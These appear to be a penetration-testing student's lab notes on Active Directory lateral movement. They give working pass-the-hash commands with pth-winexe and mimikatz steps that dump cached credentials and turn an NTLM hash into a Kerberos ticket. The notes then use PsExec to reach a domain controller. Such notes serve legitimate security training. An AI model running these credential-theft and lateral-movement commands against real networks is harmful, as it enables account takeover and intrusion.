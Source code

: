 ## Active Directory Lateral Movement

### Passing-the-hash toolkit

Uses NTLM authentication to obtain code execution on a Windows client.

This works for domain accounts as well as the built in local-admin account.

From a Kali Linux machine:

```bash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.216.10 cmd
```

### Overpass the Hash

We can take a privileged user's NTLM hash, use it to generate a Kerberos TGT, then use that ticket to gain remote access to another server.  

1. Compromise a Windows machine, then use mimikatz to view cached credentials

   - In the lab, we simulated this opening Notepad, right click the task bar icon, then SHIFT+RIGHT click the notepad icon on the menu and choosing 'run as different user'

   ```powershell
   privilege::debug 
   sekurlsa::logonpasswords
   ```

   Get the NTLM hash from this output for the user

2. Use mimikatz to convert the NTLM hash into a Kerberos ticket

   ```powershell
   sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
   ```

   This will open a Powershell command as the specified user.

3. In the new Powershell window, access some resource to generate a TGT (like accessing a network share)

   ```powershell
   net use \\dc01
   ```

4. Use klist to view the Kerberos tickets

   ```powershell
   klist
   ```

5. We now have a TGT and a Powershell window in the context of the user, so we can use these to obtain code execution on remote servers that user has access to, like a domain controller, using PSExec.exe
   https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
   Note:  When I ran this on Win10, it prompted me with a user agreement.  I'm not sure how this will behave through a reverse shell.

